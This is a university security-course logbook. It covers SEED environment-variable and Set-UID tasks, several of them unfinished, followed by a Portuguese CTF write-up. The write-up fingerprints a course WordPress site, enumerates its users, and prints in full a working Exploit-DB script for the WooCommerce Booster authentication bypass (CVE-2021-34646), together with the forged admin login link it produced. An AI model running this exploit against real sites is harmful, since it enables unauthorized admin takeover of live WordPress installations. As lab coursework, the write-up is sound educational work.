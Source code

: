 # Trabalho realizado na Semana #4

## Task 1 : Manipulating Environment Variables

<figure width="50%">
   <img src="images/logbook4/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1.</strong> Usage of printenv</figcaption>

</figure>

<figure width="50%">
   <img src="images/logbook4/env.png" alt="usage of env" width="50%" />
   <figcaption><strong>Fig 2.</strong> Usage of env</figcaption>

</figure>

<figure width="50%">
   <img src="images/logbook4/export.png" alt="usage of export" width="50%" />
   <figcaption><strong>Fig 3.</strong>Usage of export</figcaption>

</figure>

<figure width="50%">
   <img src="images/logbook4/unset.png" alt="usage of unset" width="50%" />
   <figcaption><strong>Fig 4.</strong>Usage of unset</figcaption>

</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

---

## Task 2 : Passing Environment Variables from Parent Process to Child Process

### Step 1 - Child Process
The child process prints the environment variables

### Step 2 - Parent Process
The parent process also prints the same environment variables

### Step 3 - Conclusions
The results of `Step 1` and `Step 2` are the same, since the child process inherits the env variables from its parent.

---
## Task 3 : Environment Variables and *execve()*
### Step 1

<figure width="50%">
   <img src="images/logbook4/environnull.png" alt="running environnull" width="50%" />
   <figcaption><strong>Fig 5.</strong>Running environ.c</figcaption>

</figure>

The program has no results, since it doesn't inherit any environment variable.

We can see why if we read *execve()* manpage. The function signature is:

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The string array *envp* is supposed to have the environment variables and, in this case, we pass *NULL* to it, so, no environment variables are inherited. 

### Step 2

<figure width="50%">
   <img src="images/logbook4/environ.png" alt="running environ" width="50%" />
   <figcaption><strong>Fig 6.</strong>Running environ.c</figcaption\>

</figure>

After adding the environment variables present in *environ* (environment variables array) in the function's parameter *envp*, the program now prints all the environment variables, similar to Task 2.

### Step 3

The new program gets its environment variables from the third argument of the *execve*'s function: The *environ* variable, which is essentially an array that contains all the environment variables.

---
## Task 4 : Environment Variables and system()

Using the *system* we have the same results, as expected, since, in reality, we are calling the function:

```c
execl("/bin/sh", "sh", "-c", "usr/bin/env", (char *) NULL);
```

Which will afterwards use the *execve* function and the results will be the same (all the environment variables will be printed)

---
## Task 5 : Environment Variable and Set-UID Programs

### Step 2

```bash
[10/02/22]seed@VM:~/.../Labsetup$ gcc newprog.c
[10/02/22]seed@VM:~/.../Labsetup$ sudo chown root a.out
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwxrwxr-x 1 root seed 16768 Oct  2 21:20 a.out
[10/02/22]seed@VM:~/.../Labsetup$ sudo chmod 4755 a.out 
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16768 Oct  2 21:20 a.out
```

### Step 3

<TODO>

---
## Task 6 : The PATH Environment Variable and Set-UID Programs

<TODO>

---
## Task 7 : The LD PRELOAD Environment Variable and Set-UID Programs

<TODO>


## CTF - Desafio 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
